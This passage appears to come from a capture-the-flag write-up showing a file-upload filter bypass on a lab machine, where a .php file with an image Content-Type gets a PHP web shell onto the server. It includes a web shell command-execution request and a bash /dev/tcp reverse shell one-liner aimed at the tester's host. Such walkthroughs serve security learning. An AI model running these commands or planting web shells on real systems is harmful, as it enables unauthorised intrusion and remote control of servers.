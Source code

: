 I’ll find the allowed upload of a PNG in Burp and send it to Repeater. There are three common ways that a website will check for valid file types by comparing them to an allow- or deny-list:
- file extension
- `Content-Type` header
- [magic bytes](https://en.wikipedia.org/wiki/List_of_file_signatures)

I’ll start by changing one at a time to see if the site blocks. First, I’ll change the extension to `.php`. It doesn’t seem to mind:

[![burp repeater with changed ext](https://0xdfimages.gitlab.io/img/image-20200621124500483.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20200621124500483.png)

That is a real security vulnerability, because a server should never allow a user to upload anything that can be named `.php`, as then the server is likely to execute it as PHP code.

If I change the `Content-Type` header to `application/x-php`, it blocks it (even with the file name changed back to `.png`:

[![repeater with changed content-type](https://0xdfimages.gitlab.io/img/image-20200621124643359.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20200621124643359.png)

Changing the content doesn’t seem to matter:

[![repeater with changed content](https://0xdfimages.gitlab.io/img/image-20200621124754152.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20200621124754152.png)

### Upload

Based on the filter testing, it seems like I can name a file `.php` and include PHP code, as long as I change the `Content-Type` to a valid image.

[![webshell upload](https://0xdfimages.gitlab.io/img/image-20200621124856522.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20200621124856522.png)

I’ll send it from Repeater (or I could upload the shell again through the form, and use Proxy to intercept the request and modify it).

When I check `/torrent/upload`, there is a PHP file there (seems to be named with a SHA1 hash of something):

![image-20200621125015779](https://0xdfimages.gitlab.io/img/image-20200621125015779.png)

And it gives execution:

```

root@kali# curl http://10.10.10.6/torrent/upload/0ba973670d943861fb9453eecefd3bf7d3054713.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

### Shell

To get a shell, I’ll start `nc` and pass `cmd` as a reverse shell:

```

root@kali# curl http://10.10.10.6/torrent/upload/0ba973670d943861fb9453eecefd3bf7d3054713.php --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.14/443 0>&1'"

```

